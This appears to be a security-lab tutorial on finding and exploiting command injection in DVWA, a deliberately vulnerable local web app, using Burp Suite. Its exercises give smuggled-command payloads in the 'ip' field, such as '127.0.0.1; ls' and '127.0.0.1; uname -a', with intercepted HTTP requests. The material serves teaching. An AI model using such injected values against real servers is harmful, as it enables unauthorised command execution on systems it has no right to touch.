 # Project 4: Finding and Exploiting Command Injection Flaws using DVWA

## Introduction
Command Injection is a web security vulnerability that allows attackers to execute arbitrary system commands on the underlying server. This can lead to unauthorized access, data theft, and system compromise. In this project, you will learn how to identify and exploit Command Injection vulnerabilities using DVWA (Damn Vulnerable Web Application) and Burp Suite.

## Pre-requisites
- Basic understanding of web application concepts and the HTTP protocol.
- Familiarity with command line interfaces (CLI).
- A working installation of DVWA and Burp Suite Community Edition.

## Lab Set-up

### Setting up DVWA
1. **Install XAMPP**:
   - Download XAMPP from [Apache Friends](https://www.apachefriends.org/index.html) and install it.
   - Start the Apache and MySQL services from the XAMPP control panel.

2. **Install DVWA**:
   - Download DVWA from [GitHub](https://github.com/digininja/DVWA).
   - Extract the DVWA files into the `htdocs` directory of your XAMPP installation (e.g., `C:\xampp\htdocs\DVWA`).

3. **Configure DVWA**:
   - Open `config` directory inside DVWA (`C:\xampp\htdocs\DVWA\config`) and rename `config.inc.php.dist` to `config.inc.php`.
   - Edit `config.inc.php` and set the following database configurations:
     ```php
     $_DVWA['db_user'] = 'root';
     $_DVWA['db_password'] = '';
     $_DVWA['db_database'] = 'dvwa';
     ```

4. **Set up the DVWA Database**:
   - Open a web browser and navigate to `http://localhost/DVWA/setup.php`.
   - Click on the "Create / Reset Database" button to set up the database.
   - Log in to DVWA with the default credentials:
     ```
     Username: admin
     Password: password
     ```

### Setting up Burp Suite
1. **Download and Install Burp Suite**:
   - Download Burp Suite Community Edition from [PortSwigger](https://portswigger.net/burp/communitydownload) and install it.

2. **Configure Burp Suite with your Browser**:
   - Open Burp Suite and go to the "Proxy" tab.
   - Click on "Intercept is on" button to toggle interception off.
   - Go to the "Options" sub-tab and ensure the proxy listener is running on 127.0.0.1:8080.
   - Configure your web browser to use Burp Suite as a proxy (set the proxy server to 127.0.0.1 and port 8080).

## Exercises

### Exercise 1: Identifying Command Injection Vulnerabilities

1. **Set DVWA Security Level to Low**:
   - Log in to DVWA and go to the "DVWA Security" section.
   - Set the security level to "Low" and click "Submit".

2. **Navigate to Command Injection Section**:
   - Go to the "Command Injection" section in DVWA.

3. **Intercept the Request with Burp Suite**:
   - Enter an IP address (e.g., `127.0.0.1`) and click "Submit".
   - Burp Suite will intercept the request. Forward the request to see the result.

4. **Modify the Request to Exploit Command Injection**:
   - Intercept the request again and modify the `ip` parameter to execute an arbitrary command (e.g., `127.0.0.1; ls`).
   - Forward the modified request and observe the response.

### Commands and Expected Output

1. **Initial Request Interception**:
   - Request intercepted by Burp Suite:
     ```
     POST /DVWA/vulnerabilities/exec/ HTTP/1.1
     Host: localhost
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 27

     ip=127.0.0.1&submit=Submit
     ```

2. **Modified Request with Command Injection**:
   - Modify the intercepted request:
     ```
     POST /DVWA/vulnerabilities/exec/ HTTP/1.1
     Host: localhost
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 27

     ip=127.0.0.1; ls&submit=Submit
     ```
   - Expected output: The response should list the contents of the directory on the server.

### Exercise 2: Exploiting Command Injection to Execute Commands

1. **Crafting Command Injection Payloads**:
   - Use payloads to execute arbitrary commands. For example, to display system information:
     ```
     127.0.0.1; uname -a
     ```

2. **Expected Output**:
   - The response should display system information such as the operating system and kernel version.

